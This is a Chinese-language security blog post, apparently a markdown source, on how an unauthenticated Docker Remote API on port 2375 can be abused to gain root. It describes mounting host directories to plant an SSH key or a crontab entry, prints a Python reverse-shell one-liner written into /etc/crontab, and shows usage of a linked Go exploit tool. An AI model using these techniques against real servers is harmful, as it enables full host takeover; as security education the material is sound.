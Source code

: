 ```toml
title = "Docker Remote api在安全中的应用杂谈"
slug = "docker-remote-api-sec-misc"
desc = "docker-remote-api-sec-misc"
date = "2017-02-14 09:59:37"
update_date = "2017-02-14 09:59:37"
author = ""
thumb = ""
tags = ["tag"]
```

## 概述

部门每周三例行的技术分享投稿文章，首发在[小米安全中心](https://sec.xiaomi.com/article/22)

众所周知，Docker daemon默认是监听在unix socket上的，如unix:///var/run/docker.sock。
官方还提供一个Rustful api接口，允许通过TCP远程访问Docker，例如执行以下启动参数可以让docker监听在本地所有地址的2375端口上：

```bash
dockerd -H=0.0.0.0:2375 -H unix:///var/run/docker.sock
```

之后就可以用docker client或任意http客户端远程访问了：
```bash
$ curl http://10.10.10.10:2375/containers/json
[]

docker -H=tcp://10.10.10.10:2375 ps         
CONTAINER ID        IMAGE               COMMAND             CREATED             STATUS              PORTS               NAMES
```
但是开启这种没有任何访问控制的Docker remote Api服务是非常危险的，攻击者发现后可以轻松地拿下整个服务器的权限。

## 攻击方法
Docker remote Api未授权访问的攻击原理与之前的Redis未授权访问漏洞大同小异，都是通过向运行该应用的服务器写文件，从而拿到服务器的权限，常见的利用方法如下：

1. 启动一个容器，挂载宿主机的/root/目录，之后将攻击者的ssh公钥`~/.ssh/id_rsa.pub`的内容写到入宿主机的`/root/.ssh/authorized_keys`文件中，之后就可以用root账户直接登录了
1. 启动一个容器，挂载宿主机的/etc/目录，之后将反弹shell的脚本写入到`/etc/crontab `中，攻击者会得到一个反弹的shell，其中反弹shell脚本的样例如下：

    ```bash
    echo -e "*/1 * * * * root /usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"127.0.0.1\",8088));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'\n" >> /etc/crontab
    ```

第2种利用方法也可以挂载var/spool/cron/目录，将反弹shell的脚本写入到`/var/spool/cron/root（centos系统）`或`/var/spool/cron/crontabs/root(ubuntu系统)`

手工利用方法网上有很多，就不多说了，笔者直接给出一个go语言版的自动化利用工具，github地址为：[https://github.com/netxfly/docker-remote-api-exp](https://github.com/netxfly/docker-remote-api-exp)，使用方法如下：
```bash
$ ./remote_api_exp
Usage of ./remote_api_exp:
  -pubkey string
        id_rsa.pub file (default "/root/.ssh/id_rsa.pub")
  -reverse string
        reverse address, 6.6.6.6:8888
  -target string
        target ip, 1.1.1.1:2375
  -type string
        Type, such as check, root, shell (default "check")
  -version string
        Docker version:
        ---------------------------
        Docker version  API Version
        ---------------------------
```